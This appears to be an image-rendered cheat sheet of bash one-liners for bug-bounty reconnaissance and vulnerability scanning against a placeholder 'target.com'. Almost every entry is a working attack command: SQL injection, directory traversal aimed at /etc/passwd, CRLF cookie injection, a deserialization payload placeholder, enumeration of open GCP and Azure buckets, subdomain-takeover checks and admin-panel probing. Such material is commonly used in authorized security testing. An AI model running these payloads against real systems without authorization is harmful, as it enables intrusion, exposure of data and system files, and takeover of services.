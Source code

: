 ### GCP Bucket Enumeration (Google Cloud)
```bash
subfinder -d target.com | sed 's/$/.storage.googleapis.com/' | httpx -silent -mc 200 -o open_gcp_buckets.txt
```

### Python Pickle Injection Check (Deserialization Bug)
```bash
cat all_urls.txt | gf deserialize | qsreplace 'evil_pickle_payload_here' | httpx -silent -o pickle_vulns.txt
```

### SQL Injection (Error-Based Detection)
```bash
cat all_urls.txt | gf sqli | qsreplace "' OR 1=1 --" | httpx -silent -fr 'syntax|sql|error|database' -o sql_injection.txt
```

### Version Disclosure Detection
```bash
cat all_urls.txt | httpx -silent -hdrs | grep -Ei 'server:|x-powered-by:' | tee version_disclosures.txt
```

### CRLF Injection with Cookie Injection Check
```bash
cat all_urls.txt | gf crlf | qsreplace '%0d%0aSet-Cookie:+crlf=found' | httpx -silent -fr 'crlf=found' -o crlf_cookie_injection.txt
```

### Directory Traversal Finder
```bash
cat all_urls.txt | qsreplace '../../etc/passwd' | httpx -silent -fr 'root:x' -o dir_traversal.txt
```

### Azure Storage Enumeration
```bash
subfinder -d target.com | sed 's/$/.blob.core.windows.net/' | httpx -silent -mc 200 -o open_azure_blobs.txt
```

### Subdomain Takeover Detection (CNAME Pointing to Unclaimed Services)
```bash
subfinder -d target.com | dnsx -silent -a -resp-only | nuclei -silent -t takeover-detection/ -o takeover_candidates.txt
```

### Unauthorized Admin Panel Access
```bash
cat all_urls.txt | httpx -silent -path-list <(echo -e '/admin\n/dashboard\n/cms\n/panel\n/root\n/console') -mc 200 -o exposed_admins.txt
```
